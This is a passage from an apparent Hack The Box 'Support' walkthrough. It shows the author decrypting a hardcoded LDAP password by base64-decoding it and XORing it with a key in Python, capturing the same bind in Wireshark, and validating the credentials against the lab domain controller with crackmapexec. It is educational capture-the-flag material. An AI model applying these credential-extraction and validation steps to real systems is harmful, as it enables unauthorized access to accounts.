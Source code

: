 ```
	}
}
```

I’ll decrypt the password using a Python terminal:

```
C:\Users\\Downloads\UserInfo>python
Python 3.13.1 (tags/v3.13.1:0671451, Dec  3 2024, 19:06:28) [MSC v.1942 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> from base64 import b64decode
>>> from itertools import cycle
>>> pass_b64 = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
>>> key = b"armando"
>>> enc = b64decode(pass_b64)
>>> [e^k^223 for e,k in zip(enc, cycle(key))]
[110, 118, 69, 102, 69, 75, 49, 54, 94, 49, 97, 77, 52, 36, 101, 55, 65, 99, 108, 85, 102, 56, 120, 36, 116, 82, 87, 120, 80, 87, 79, 49, 37, 108, 109, 122]
>>> bytearray([e^k^223 for e,k in zip(enc, cycle(key))]).decode()
'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
>>>
```

#### Dynamic

On my Linux system, I’ve got the .NET framework installed, which comes with the `mono` binary, which can be used to run this binary as well. If I open Wireshark and run the binary, I’ll capture the authentication in the LDAP stream:

![image-20221214172817603](https://0xdfimages.gitlab.io/img/image-20221214172817603.png)

This can also be seen in the packet that Wireshark labels as “bindRequest”:

![image-20221214172910209](https://0xdfimages.gitlab.io/img/image-20221214172910209.png)

Interestingly, this doesn’t work on Windows. I’ll dig a bit in [Beyond Root](https://0xdf.gitlab.io/2022/12/17/htb-support.html#beyond-root).

### Verify Creds

`crackmapexec` is a nice way to quickly show these creds work:

```
oxdf@hacky$ crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         dc.support.htb  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         dc.support.htb  445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

## Shell as support

### BloodHound
